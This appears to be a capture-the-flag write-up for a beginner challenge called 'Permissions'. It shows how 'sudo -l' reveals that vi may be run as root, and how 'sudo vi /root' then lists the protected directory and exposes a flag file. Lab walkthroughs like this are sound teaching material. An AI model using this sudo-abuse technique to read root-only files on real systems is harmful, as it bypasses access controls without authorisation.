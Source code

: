 # Permissions #
 
## Overview ##
 
100 points
 
Category: [General Skills](../)
 
Tags : `#sudo`
 
## Description ##
 
Can you read files in the root file?
 
## Approach ##

Nothing of interest in the users home folder and we don't have permission to list the contents of `/root'` :

    $ ls /root
    ls: cannot open directory '/root': Permission denied

Suggesting we may need `sudo`, lets see what is available to us :

    $ picoplayer@challenge:~$ sudo -l
    [sudo] password for picoplayer: 
    Matching Defaults entries for picoplayer on challenge:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User picoplayer may run the following commands on challenge:
        (ALL) /usr/bin/vi

## Solution ##

`vi` may be run as a superuser via `sudo`, so we'll run it using the following command to show us a directory listing of `/root` as we don't its contents as yet : 

    $ sudo vi /root

    " ============================================================================
    " Netrw Directory Listing                                        (netrw v165)
    "   /root
    "   Sorted by      name
    "   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$
    "   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
    " ==============================================================================
    ../                                                                                                 
    ./
    .vim/
    .bashrc
    .flag.txt
    .profile
    .viminfo

Navigate to the `.flag.txt` file, hit enter to open and view the flag contents.
